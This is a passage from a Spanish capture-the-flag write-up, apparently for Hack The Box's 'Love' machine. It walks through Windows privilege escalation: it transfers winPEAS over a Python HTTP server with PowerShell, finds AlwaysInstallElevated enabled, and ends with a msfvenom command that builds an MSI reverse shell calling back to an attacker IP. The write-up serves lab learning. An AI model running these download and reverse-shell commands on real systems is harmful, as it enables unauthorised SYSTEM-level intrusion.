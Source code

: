 entonces nos descargamos el binario (.exe) del winPEAS parra 64 bits del siguiente repositorio:

[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

la descargamos en nuestra maquina y lo transferimos a la maquina love de la siguiente manera:

en el direrctorio donde se encuentre el binaro de winPEAS establecemos un serrvidor en python:

python 2

```
python -m SimpleHTTPServer
```

python 3

```
python3 -m http.server
```
 
 en la maquina windows ngresamos a una powershell y descarrgamos el archivo:
 
 ```
 powershell
 
 Invoke-webRequest -Uri http://10.10.16.25:8000/winPEASx64.exe -OutFile winPEAS.exe
 ```
 
 [https://adamtheautomator.com/powershell-download-file/](https://adamtheautomator.com/powershell-download-file/)
 
 volvemos a la cmd y lo ejecutamos:
 
 ```
 exit
 
 .\winPEAS.exe
 ```
 
 De toda la salida nos llama la atencion esto:
 
  ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LOVE/images/26.png)
 
 Basicamente si estos 2 registros están **habilitados** (el valor es **0x1** ), los usuarios con cualquier privilegio pueden instalar (ejecutar) archivos .msi como NT AUTHORITY \\SYSTEM
 
 [https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated)
 
 Esto es como un permiso SUID en Linux.
 
 Entonces con msfenom nostros podems crear un .msi que nos de una rerverse shell
 
 ```
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.25 LPORT=4545 -f msi > shell.msi
 ```
 